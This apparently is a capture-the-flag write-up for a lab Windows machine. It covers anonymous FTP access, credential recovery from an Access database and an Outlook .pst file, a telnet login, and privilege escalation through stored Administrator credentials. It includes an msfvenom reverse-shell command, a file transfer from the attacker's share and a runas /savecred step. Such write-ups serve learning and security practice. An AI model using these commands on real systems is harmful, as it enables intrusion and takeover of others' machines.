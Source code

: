 # Access

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Running the full port scan, I found that ports 21, 23 and 80 were open.&#x20;

### (21) FTP

FTP is configured to allow anonymous login and I found `backup.mdb`&#x20;

To obtain the .mdb file, I changed the FTP transfer mode to binary using the command `bin` and downloaded the file using `get backup.mdb`

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I was able to view the tables using `mdb-tables backup.mdb`

The `auth_user` table caught my attention.

Using `mdb-export backup.mdb auth_user`, I found the following credentials.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Furthermore, I found `Access Control.zip` in the FTP server.&#x20;

Trying to unzip the file, I obtained `unsupported compression method 99`. Searching online for solution, I decided to use `7z` to unzip the folder.

Using the command `7z x Access\ Control.zip`, I found that it requires a password to unzip.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying the password obtained from `auth_user` table (access4u@security), I managed to successfully unzip the folder.

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

A file named `Access Control.pst` was being extracted. To view the contents of a `.pst` file, I used the command `readpst 'Access Control.pst`

Opening the email up, I found the credentials: `security:4Cc3ssC0ntr0ller`

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### (23) Telnet

I managed to login using the credentials `security:4Cc3ssC0ntr0ller`

Found the user flag

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

To show the currently stored credentials, use the command `cmdkey /list`

I obtained the following:

```
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

It means that the Administrator credentials were stored in the target which allows the attackers to run commands impersonating the Administrator.

I generated a reverse shell payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`&#x20;

Transferred from kali to victim (`copy \10.10.14.6\share\reverse.exe reverse.exe`)

Run the reverse.exe as administrator using `runas /savecred /user:ACCESS\Administrator reverse.exe`

And I obtained a shell as the administrator.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

